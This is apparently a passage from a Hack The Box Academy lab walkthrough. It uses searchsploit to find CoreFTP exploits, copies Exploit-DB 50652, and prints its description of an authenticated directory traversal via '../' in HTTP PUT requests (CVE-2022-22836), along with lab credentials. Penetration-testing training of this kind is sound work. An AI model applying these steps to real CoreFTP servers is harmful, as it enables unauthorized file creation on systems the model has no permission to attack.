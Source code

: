 ```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ searchsploit CoreFTP

---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CoreFTP 2.0 Build 674 MDTM - Directory Traversal (Metasploit)                                                                                 | windows/remote/48195.txt
CoreFTP 2.0 Build 674 SIZE - Directory Traversal (Metasploit)                                                                                 | windows/remote/48194.txt
CoreFTP 2.1 b1637 - Password field Universal Buffer Overflow                                                                                  | windows/local/11314.py
CoreFTP Server build 725 - Directory Traversal (Authenticated)                                                                                | windows/remote/50652.txt
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Since students have the credentials `fiona:987654321`, they need to mirror/copy the `windows/remote/50652.txt` exploit:

Code: shell

```shell
searchsploit -x windows/remote/50652.txt
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ searchsploit -m windows/remote/50652.txt

  Exploit: CoreFTP Server build 725 - Directory Traversal (Authenticated)
      URL: https://www.exploit-db.com/exploits/50652
     Path: /usr/share/exploitdb/exploits/windows/remote/50652.txt
File Type: ASCII text

Copied to: /home/htb-ac413848/50652.txt
```

After reading the text file, students will know that they can create files with `PUT` requests:

Code: shell

```shell
cat 50652.txt
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ cat 50652.txt 

# Exploit Title: CoreFTP Server build 725 - Directory Traversal (Authenticated)
# Date: 08/01/2022
# Exploit Author: LiamInfosec
# Vendor Homepage: http://coreftp.com/
# Version: build 725 and below
# Tested on: Windows 10
# CVE : CVE-2022-22836

# Description:

CoreFTP Server before 727 allows directory traversal (for file creation) by an authenticated attacker via ../ in an HTTP PUT request.

```